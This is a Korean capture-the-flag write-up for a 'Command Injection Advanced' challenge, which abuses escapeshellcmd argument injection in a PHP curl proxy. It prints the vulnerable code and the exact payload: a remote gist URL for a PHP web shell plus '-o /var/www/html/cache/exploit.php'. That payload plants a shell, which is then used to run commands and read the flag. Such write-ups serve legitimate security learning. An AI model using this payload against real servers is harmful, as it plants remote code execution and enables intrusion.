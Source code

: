 https://teberr.notion.site/Command-Injection-Advanced-29ee9ae6563b43f19b4e08477eb75ec3

# 문제파일 다운로드

![문제파일 다운로드.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7b467978-6f2b-4b42-8608-5ddd0551c35c/%EB%AC%B8%EC%A0%9C%ED%8C%8C%EC%9D%BC_%EB%8B%A4%EC%9A%B4%EB%A1%9C%EB%93%9C.png)

Command Injection Advanced 문제파일을 다운로드 받으면 도커파일과 index.php 파일이 존재한다.

# 코드 분석 및 공격 설계

```php
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
        <div class="card-content">
        <h1 class="title">Online Curl Request</h1>
    <?php
        if(isset($_GET['url'])){
            $url = $_GET['url'];
            if(strpos($url, 'http') !== 0 ){
                die('http only !');
            }else{
                $result = shell_exec('curl '. escapeshellcmd($_GET['url']));
                $cache_file = './cache/'.md5($url);
                file_put_contents($cache_file, $result);
                echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
                echo '<pre>'. htmlentities($result) .'</pre>';
                return;
            }
        }else{
        ?>
            <form>
                <div class="field">
                    <label class="label">URL</label>
                    <input class="input" type="text" placeholder="url" name="url" required>
                </div>
                <div class="control">
                    <input class="button is-success" type="submit" value="submit">
                </div>
            </form>
        <?php
        }
    ?>
        </div>
        </div>
    </body>
</html>
```

`<?php 내용 ?>` 부분을 천천히 살펴보면

1. url로 전달 받은 매개변수는 http로 시작해야 한다. 
2. 사용자가 입력한 매개변수 url에 담겨있는 값을 escapeshellcmd로 받아 curl로 실행시킨다.
3. 매개변수 url을 md5로 암호화한 값을 이름으로 하여 /cache/파일명 으로 결과값을 저장한다.

여기서 핵심은 escapeshellcmd 인데 이는 `메타 문자 . ^ $ * + ? { } [ ] \ | ( )`가 입력되었을 때 앞에 /를 삽입시켜 커맨드 인젝션을 방지해주는 함수이다. 이로 인해 메타문자를 이용한 커맨드 인젝션은 불가능하지만 사용자의 입력값이 특정 명령어의 ‘인자’로 전달되는 경우 그 명령어의 옵션(-기호 사용)은 조작할 수 있다.

이 때 문제에서 사용하고 있는 curl의 경우 전달된 URL에 접속하는 프로그램으로 -o 옵션을 사용하면 임의의 파일로 저장할 수 있다. 이를 이용해 웹쉘을 원하는 위치에 업로드할 수 있다.

웹쉘을 파일이 저장되는 ./cache/ 위치에 같이 올려보자.

# 공격

웹쉘을 올리기 위해서는 웹쉘 URI가 필요하다.

두가지 방법이 있는데 개인서버에 웹쉘파일을 올리고 그 웹쉘의 경로를 넣어주는 방법과 Github Raw file 링크를 이용하는 방법이 있다.

개인 서버를 여는 방법으로는 AWS를 사용하는데 이는 저번에 해봤듯 작업해야하는 것들이 조금 많아서 Github Raw file 링크를 이용하기로 했다.

[https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php](https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php) 은 웹쉘 php파일 URI이다.

![웹쉘.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a41fb768-e2d3-465b-ada6-89f4cd7dabb7/%EC%9B%B9%EC%89%98.png)

열어보면 cmd로 받은 매개변수를 system 함수로 실행시켜주는 것을 알 수 있다. 

![exploit.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/173da729-bc7a-4e43-9bd7-4b7b4f3dbf91/exploit.png)

![공격.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3925385d-4e50-40b1-9686-28f80d2853b1/%EA%B3%B5%EA%B2%A9.png)

이 웹쉘을 [https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php](https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php) -o /var/www/html/cache/exploit.php 로 하여 cache 폴더 밑에 웹쉘이 exploit.php 파일명으로 저장되도록 하였다.

![exploit.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f6cd7fcd-976e-409d-8cf8-67790603eef4/exploit.png)

그리고 /cache/exploit.php로 이동하면 위와 같이 창이 뜬다. 이제 이 창에 입력하고 Execute 버튼을 누르면 넣어준 값을 system함수에 넣어서 실행하게 된다.

![ls -al.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6f67349d-70da-4a20-a3c7-617fd17c8a63/ls_-al.png)

ls -al을 해주면 정상적으로 system(”ls -al”)의 결과가 나오는 것을 확인할 수 있다.

![ls -al root.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f97065d7-98f0-498e-9ab1-04e3e9ba83ae/ls_-al_root.png)

root 위치를 보면 flag 파일이 존재하고 실행권한만이 존재하는 것을 볼 수 있다.

이 flag 파일을 실행하면 flag 값이 나올 것이다.

![루트로 이동 후 flag 실행.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b4b2947a-bc00-4cbb-a1b7-485e5af76f4d/%EB%A3%A8%ED%8A%B8%EB%A1%9C_%EC%9D%B4%EB%8F%99_%ED%9B%84_flag_%EC%8B%A4%ED%96%89.png)

따라서 cd ../../../../../../로 루트로 이동 후 /flag를 실행하는 명령어를 파이프(|)로 연결하여 실행시킨다.

 

![flag.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b28d8786-3a03-4108-af54-d0733f0d4f50/flag.png)

flag 값 `DH{8ca5256a49452e4db9de7691a9c69b7678271383}`이 출력되는 것을 확인할 수 있다.
